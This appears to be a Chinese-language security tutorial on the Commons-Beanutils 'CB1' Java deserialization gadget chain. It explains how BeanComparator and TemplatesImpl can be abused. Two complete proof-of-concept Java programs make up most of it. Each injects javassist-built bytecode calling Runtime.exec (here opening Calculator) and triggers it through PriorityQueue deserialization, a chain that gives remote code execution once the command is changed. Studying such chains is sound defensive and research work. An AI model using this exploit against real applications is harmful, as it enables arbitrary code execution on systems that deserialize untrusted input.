


## 简介
Apache Commons Beanutils是 Apache Commons工具集中的另一个项目，它提供对 javaBean 的一些操作，javaBean的用于映射数据库的。
### 环境
CB1 类似于CC2，利用优先级队列触发comparator的compare方法，其中需要以下依赖
```xml
<dependency>
  <groupId>commons-collections</groupId>
  <artifactId>commons-collections</artifactId>
  <version>3.1</version>
</dependency>

<!-- https://mvnrepository.com/artifact/commons-beanutils/commons-beanutils -->
<dependency>
  <groupId>commons-beanutils</groupId>
  <artifactId>commons-beanutils</artifactId>
  <version>1.9.2</version>
</dependency>

<!-- https://mvnrepository.com/artifact/commons-logging/commons-logging -->
<dependency>
  <groupId>commons-logging</groupId>
  <artifactId>commons-logging</artifactId>
  <version>1.2</version>
</dependency>
```
## Tips
CB1 类似于CC2，在Commons Beanutils中提供对JavaBean的一些操作，在commons.beanutils的BeanComparator类中，实现了Comparator和Serializable接口，如下为BeanComparator#compare方法，当this.property为空的时候，则比较o1,o2两个元素，否则则调用PropertyUtils.getProperty(),当o1为对象A，this.property为name,则此时PropertyUtils.getProperty方法会调用A.getName方法
```java
public int compare(T o1, T o2) {
    if (this.property == null) {
        return this.internalCompare(o1, o2);
    } else {
        try {
            Object value1 = PropertyUtils.getProperty(o1, this.property);
            Object value2 = PropertyUtils.getProperty(o2, this.property);
            return this.internalCompare(value1, value2);
        } catch (IllegalAccessException var5) {
            throw new RuntimeException("IllegalAccessException: " + var5.toString());
        } catch (InvocationTargetException var6) {
            throw new RuntimeException("InvocationTargetException: " + var6.toString());
        } catch (NoSuchMethodException var7) {
            throw new RuntimeException("NoSuchMethodException: " + var7.toString());
        }
    }
}
```
在TemplatesImpl中，可以看到在getOutputProperties()方法中，调用了newTransformer()方法，
```java
public synchronized Properties getOutputProperties() {
    try {
        return newTransformer().getOutputProperties();
    }
    catch (TransformerConfigurationException e) {
        return null;
    }
}
```
在newTransformer()方法中，调用getTransletInstance()方法，只要_name不为null，_class为null，_bytecode为我们的恶意字节码，那么攻击就能成功
```java
public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);

        if (_uriResolver != null) {
            transformer.setURIResolver(_uriResolver);
        }

        if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
            transformer.setSecureProcessing(true);
        }
        return transformer;
    }
```
那么总结一下，就是如下几点：

1. BeanComparator@property = outputProperties
2. TemplatesImpl@_name != null
3. TemplatesImpl@_bytecodes = 恶意字节码
4. queue.length >= 2
5. queue 需要第一次赋值用于序列化，第二次赋值则是反射将对应的恶意字节码放入对应的队列中
6. comparator 可以先不用放在构造函数中，最后再反射加入queue实例的成员变量中
## POC


```java
package com.cb1;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.PriorityQueue;

public class TestCB1 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomName = "EvilCat"+System.nanoTime();
        cc.setName(randomName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classByte = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classByte};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field field = templates.getClass().getDeclaredField("_bytecodes");
        field.setAccessible(true);
        field.set(templates,targetByteCodes);
        Field fieldName = templates.getClass().getDeclaredField("_name");
        fieldName.setAccessible(true);
        fieldName.set(templates,"1");

        BeanComparator comparator = new BeanComparator("lowestSetBit");
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        Field f = comparator.getClass().getDeclaredField("property");
        f.setAccessible(true);
        f.set(comparator,"outputProperties");

        Field f2 = queue.getClass().getDeclaredField("queue");
        f2.setAccessible(true);
        Object[] queueArray = (Object[]) f2.get(queue);
        queueArray[0] = templates;
        queueArray[1] = templates;

        try{
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(queue);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();


        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```







## POC_1
将compartor在最后反射写入其中，正常赋值，只是在最后要进行序列化的时候通过反射将其更改
看起来比较多余，相当于对代码进行了review，更明白了反序列化的目的以及反射的高级
```java
package com.cb1;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestCB1_1 {
    public static void main(String[] args)throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomName = "EvilCat"+System.nanoTime();
        cc.setName(randomName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classByte = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classByte};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field field = templates.getClass().getDeclaredField("_bytecodes");
        field.setAccessible(true);
        field.set(templates,targetByteCodes);
        Field fieldName = templates.getClass().getDeclaredField("_name");
        fieldName.setAccessible(true);
        fieldName.set(templates,"1");


        PriorityQueue<Object> queue = new PriorityQueue<Object>(2);
        queue.add(1);
        queue.add(1);

        Constructor constructor = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredConstructor();
        BeanComparator comparator = (BeanComparator) constructor.newInstance();
        Field f = Class.forName("org.apache.commons.beanutils.BeanComparator").getDeclaredField("property");
        f.setAccessible(true);
        f.set(comparator,"outputProperties");
        Field f1 = queue.getClass().getDeclaredField("comparator");
        f1.setAccessible(true);
        f1.set(queue,comparator);
        Field f2 = queue.getClass().getDeclaredField("queue");
        f2.setAccessible(true);
        Object[] queueArray = (Object[]) f2.get(queue);
        queueArray[0] = templates;
        try{
            FileOutputStream fileOutputStream = new FileOutputStream("cb1.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(queue);

            FileInputStream fileInputStream = new FileInputStream("cb1.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
